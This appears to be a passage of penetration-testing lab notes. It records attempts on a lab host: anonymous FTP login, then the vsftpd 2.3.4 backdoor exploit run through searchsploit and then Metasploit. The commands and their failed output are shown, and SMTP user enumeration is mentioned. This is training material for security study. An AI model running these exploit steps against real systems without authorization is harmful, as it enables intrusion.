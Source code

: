 * Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.0.25.190
# With anonymous access no files can be accessed
```

<figure><img src="../../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

* **Exploit vsFTPd**

```bash
searchsploit vsftpd
	vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py 10.0.25.190
# [Errno 111] Connection refused
# Backdoor on port 6200 was removed by the administrator

# Description of the unix/ftp/vsftpd_234_backdoor Metasploit module:
#  This module exploits a malicious backdoor that was added to the 
#  VSFTPD download archive. This backdoor was introduced into the 
#  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#  according to the most recent information available. This backdoor 
#  was removed on July 3rd 2011.
```

* Same result using `metasploit`.

```bash
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
options
set RHOSTS 10.0.25.190
exploit
    [*] 10.0.25.190:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.0.25.190:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.
```

* 📌 Exploits might not work because the vulnerability may have been patched!
* Enumerate user accounts via **`SMTP` brute-force**
* Disconnected: `10.0.24.140`

